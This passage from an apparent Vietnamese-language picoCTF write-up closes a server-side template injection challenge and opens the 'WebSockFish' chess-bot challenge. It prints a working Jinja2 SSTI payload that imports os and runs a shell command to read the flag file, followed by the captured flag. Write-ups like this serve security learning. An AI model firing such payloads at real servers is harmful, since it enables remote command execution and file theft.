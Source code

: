 ![alt text](image-25.png)
<b>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}</b>
![alt text](image-26.png)
> Flags: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
### Kết luận
Những gì đã học được
> Khai thác lỗ hổng SSTI
## WebSockFish
### Tổng quan
> Người đóng góp : <b>tr1ck3r</b> <br>
> Được giải quyết bởi: <b>bl4ck0ut</b> <br>
> 1,022 giải quyết / 200 point <br>
> Độ khó chung đối với chúng tôi (từ 1 - 10 sao): ★★☆☆☆☆☆☆☆☆
### Lý lịch
Bạn có thể thắng một cách thuyết phục trước con bot cờ vua này không? Nó sẽ không dễ dàng với bạn đâu! Bạn có thể tìm thấy thử thách ở đây.